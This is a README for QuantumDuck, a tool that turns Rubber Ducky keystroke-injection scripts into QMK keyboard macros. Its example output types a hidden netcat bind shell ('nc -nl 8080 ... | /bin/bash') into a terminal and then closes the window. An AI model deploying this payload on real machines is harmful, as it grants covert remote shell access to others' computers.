

Turn Ducky Scripts into QMK Read SEND_STRING() macros

Requires Python3.6+ or greater

## Install

Just run 

```git clone https://github.com/dagonis/QuantumDuck.git```

## Usage
```
python3 quantumduck --help      
usage: quantumduck [-h] [--full] [--name NAME] duckyscript

positional arguments:
  duckyscript           The location of the ducky script you want to translate

optional arguments:
  -h, --help            show this help message and exit
  --full                Toggle this to get extra QMK configuration.
  --name NAME, -n NAME  The name of the Macro key.
```

## Example
### Simple Example
```
$ python3 quantumduck nc_example.txt 
SEND_STRING(SS_LGUI(" "));
wait_ms(500);
SEND_STRING("terminal");
[output removed]
SEND_STRING(SS_TAP(X_ENTER));
SEND_STRING(SS_LGUI("q"));
```

### Full Example
```
$ python3 quantumduck nc_example.txt --full --name NC
# This part will go into the process_record_user() function

        case NC:
          if (record->event.pressed) {
            SEND_STRING(SS_LGUI(" "));
            wait_ms(500);
            SEND_STRING("terminal");
            SEND_STRING(SS_TAP(X_ENTER));
            wait_ms(1000);
            SEND_STRING("mkfifo /tmp/bp");
            SEND_STRING(SS_TAP(X_ENTER));
            SEND_STRING("nc -nl 8080 </tmp/bp | /bin/bash > /tmp/bp &");
            SEND_STRING(SS_TAP(X_ENTER));
            SEND_STRING("disown");
            SEND_STRING(SS_TAP(X_ENTER));
            SEND_STRING("exit");
            SEND_STRING(SS_TAP(X_ENTER));
            SEND_STRING(SS_LGUI("q"));
        }
        return false;

# This part will go towards the top of your config in your custom_keycodes section

        enum custom_keycodes {
            NC
        };

Don't forget to add the key into your keymaps! Happy QuantumQuacking!!!
```